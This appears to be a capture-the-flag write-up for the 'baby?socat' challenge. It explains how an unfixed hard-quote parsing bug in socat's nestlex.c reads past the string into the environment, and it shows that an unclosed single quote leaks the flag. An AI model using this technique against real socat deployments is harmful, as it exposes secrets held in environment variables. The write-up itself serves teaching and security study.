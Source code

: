 # baby?socat (Binary Exploitation)
> I love sockets and cats and socat and `ls`

The challenge runs your input as an argument to `socat`, a program that is able to relay data to/from different types of streams/sources. It's implemented as a shell script:
```sh
#!/bin/bash
echo -n "Give me your command: "
read -e -r input
input="exec:./chal ls $input"

# i have to give you stderr
FLAG="irisctf{they_even_fixed_it_for_unbalanced_double_quotes}" socat - "$input" 2>&0
```

The flag is passed as the first environment variable to `socat`, and socat is set up to execute a `chal` binary with the parameters `ls` and then the input taking the rest. The chal binary is a C program that just sets the FLAG env empty:
```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    if(argc < 2) return -1;
    if(setenv("FLAG", "NO!", 1) != 0) return -1;
    execvp(argv[1], argv+1);
    return 0;
}
```

The intended solution was to exploit a bug still in socat that caused an over-read of the command line into `envp`. The socat changelog mentions there was a bug fixed earlier where unbalanced `"` quotes would cause this behaviour.
```
Corrections:
	Socats address parser read over end of string when there were unbalanced
	quotes
	Test: UNBALANCED_QUOTE
```

The code for this check is implemented in `nestlex.c` as follows:
```c
/* check for soft quoting pattern */
quotx = squotes;
while (squotes && *quotx) {
	if (!strncmp(in, *quotx, strlen(*quotx))) { // if there's a " quote
        // ...
        result = _nestlex(/* ... */); // recursively call the lexer
        // ...
        if (result == 0 && dropquotes) {
           /* we strip the trailing quote */
           if (!in[0] || strncmp(in, *quotx, strlen(*quotx)))  return 1; // <---
           in += strlen(*quotx);
        } /* continue parsing input */
    }
}
```
The condition tries to drop the end quotes after the recursive parser is done. The marked line causes the parser to throw an error (return 1) if there is no more nested input to remove, or there's no more quotes in the input.

However, this fix was not applied just above:
```c
/* check for hard quoting pattern */
quotx = hquotes;
while (hquotes && *quotx) {
    if (!strncmp(in, *quotx, strlen(*quotx))) {
        // ...
        result = _nestlex(/* ... */); // recursively call the lexer
        // ...
	    if (result == 0 && dropquotes) {
        if (result == 0 && dropquotes) {
            /* we strip this quote */
            in += strlen(*quotx);
            // ^^^ if input is the end (null), then it overreads the string by adding 1
        } /* continue parsing input */
    }       
}
```

We can exploit that just by sending an unclosed single quote:
```
Give me your command: '
ls: cannot access 'FLAG=irisctf{they_even_fixed_it_for_unbalanced_double_quotes}': No such file or directory
2023/01/09 11:43:29 socat[2] E waitpid(): child 3 exited with status 2
```

```
irisctf{they_even_fixed_it_for_unbalanced_double_quotes}
```

There was an unintended solution using `!!`. In the future I need to design my challenges a bit more defensively - no shell when the challenge is literally interpolating commands. Just pass it to argv
